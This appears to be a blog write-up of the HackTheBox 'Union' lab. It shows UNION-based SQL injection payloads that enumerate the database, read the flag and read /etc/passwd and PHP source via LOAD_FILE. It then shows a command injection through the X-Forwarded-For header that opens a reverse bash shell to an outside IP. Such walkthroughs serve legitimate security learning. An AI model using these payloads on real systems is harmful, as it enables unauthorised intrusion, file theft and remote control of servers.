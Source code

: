 ```yaml
---
layout: post
title: "Union"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security, SQLi, Web, PHP]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap scan , only port 80 is open 
![/home/d0s3nt/myblog/_site/](assets/img/posts/Union/Pasted image 20240524161744.png)


There's definitely something here our input is checked on db , but how can we inject our sql query on it ?
![/home/d0s3nt/myblog/_site](/assets/img/posts/Union/Pasted image 20240524164641.png)


let's check sqlmap 
![Pasted image 20240524162539.png](/assets/img/posts/Union/Pasted image 20240524162539.png)

sqlmap didn't find anything 


but if we try a manual , UNION injection we can see a different response that may lead to sql injection

![Pasted image 20240524164820.png](/assets/img/posts/Union/Pasted image 20240524164820.png)

we can use this to enumerate database

the database used is `november`
![Pasted image 20240524164945.png](/assets/img/posts/Union/Pasted image 20240524164945.png)
the use is `uhc@localhost`
![Pasted image 20240524165106.png](/assets/img/posts/Union/Pasted image 20240524165106.png)

we an get the tables using 
```
' UNION SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES Where table_schema='november'--  
```
![Pasted image 20240524165512.png](/assets/img/posts/Union/Pasted image 20240524165512.png)

so the tables is `flag`
we can try to read the content of this table using
```
' UNION SELECT * from november.flag-- 
```
![Pasted image 20240524165638.png](/assets/img/posts/Union/Pasted image 20240524165638.png)

UHC{F1rst_5tep_2_Qualify} , if we take a look at challenge.php we will notice that the page is asking for a flag 

if we submit it , we can got ssh open to our ip
![Pasted image 20240524170203.png](/assets/img/posts/Union/Pasted image 20240524170203.png)

but we need credential to ssh into machine , let's try to read files on the machine using sql injection 
```
' UNION SELECT LOAD_FILE('/etc/passwd')--  
```
![Pasted image 20240524170450.png](/assets/img/posts/Union/Pasted image 20240524170450.png)

Now we can read file , let's read the php files 
if we check the firewall.php 

```
' UNION SELECT LOAD_FILE('/var/www/html/firewall.php')--  
```
![Pasted image 20240524170736.png](/assets/img/posts/Union/Pasted image 20240524170736.png)

we can see that we can inject code in header 


```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT"); 
?>
```
              

if we use HTTP_X_FORWARDED_FOR we can inject our code into this header

```
X-FORWARDED-FOR: ;bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/1337 <&1';
```

![Pasted image 20240524175113.png](/assets/img/posts/Union/Pasted image 20240524175113.png)

![Pasted image 20240524175152.png](/assets/img/posts/Union/Pasted image 20240524175152.png)

